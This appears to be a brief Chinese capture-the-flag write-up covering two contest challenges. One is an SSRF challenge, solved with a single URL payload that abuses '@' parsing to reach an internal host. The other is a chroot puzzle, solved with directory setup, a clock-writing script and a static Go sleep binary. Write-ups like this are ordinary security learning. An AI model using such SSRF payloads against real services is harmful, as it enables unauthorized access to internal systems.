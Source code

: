 # ssrf
看源代码，审计


```
http://202.38.93.241:10020/request?url=http://web1/flag?@example.com
```
脑子不够用


# 我想有个家
下载二进制文件，运行一下


看样子是要chroot，那就先创建他需要的东西吧
```
mkdir hhhh
cd hhhh
mkdir Bedroom Kitchen Lavatory Living_room
touch Bedroom/Micrrophone
cd Bedroom
ln -s Microphone Headset
```
然后写个脚本定期修改文件的时间
```
In [11]: while True:
    ...:     time.sleep(0.1)
    ...:     with open('Living_Room/Clock', 'w') as f:
    ...:         f.write(datetime.now().strftime('%H:%M:%S'))
    ...: 

```
因为没有动态库了，系统的sleep不能用了

busybox也有sleep，但是需要/dev/null，懒得去搞，直接用go写一个sleep静态编译丢进去
```
package main

import (
	"fmt"
	"time"
)

func main() {
	fmt.Println("sleep now ")
	time.Sleep(time.Duration(10)*time.Second)
	fmt.Println("sleep")
}

```
交叉编译
```
set GOOS=linux
set GOARCH=amd64
go build main.go
```
然后执行
```
chroot . ./IWantHome
```
需要sleep的时候执行main就行了
```
$ chroot . ./IWantAHome-linux
I just want a home. Please do what I say and I will give you a flag
Make sure I am running on Linux(Unix).
I want these directories in / : [/Kitchen /Lavatory /Bedroom /Living_Room]
```